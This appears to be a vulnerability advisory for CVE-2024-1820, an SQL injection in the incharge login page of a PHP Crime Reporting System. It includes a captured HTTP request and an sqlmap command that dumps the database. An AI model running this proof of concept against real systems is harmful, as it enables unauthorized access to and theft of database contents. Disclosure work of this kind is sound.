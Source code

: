 # Crime Reporting System - SQL Injection (Incharge Login)

### CVE Assigned:
**[CVE-2024-1820](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-1820)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-1820) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-1820)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Crime Reporting System](https://code-projects.org/crime-reporting-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Crime-Reporting-System/inchargelogin.php

> Two parameters `email` and `password` within incharge login are vulnerable to SQL Injection.


![email](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.1crs-inchargelogin-email-sqli.png)

![password](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.2crs-inchargelogin-password-sqli.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `inchargelogin.txt`:

```
POST /Crime-Reporting-System/inchargelogin.php HTTP/1.1
Host: 172.16.8.56
Content-Length: 56
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.8.56
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.8.56/Crime-Reporting-System/inchargelogin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

email=shah@anandapur&password=123&s=
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r inchargelogin.txt --level 5 --risk 3 --batch --dbms MYSQL --dump
```


## Recommendations

When using this Crime Reporting System, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
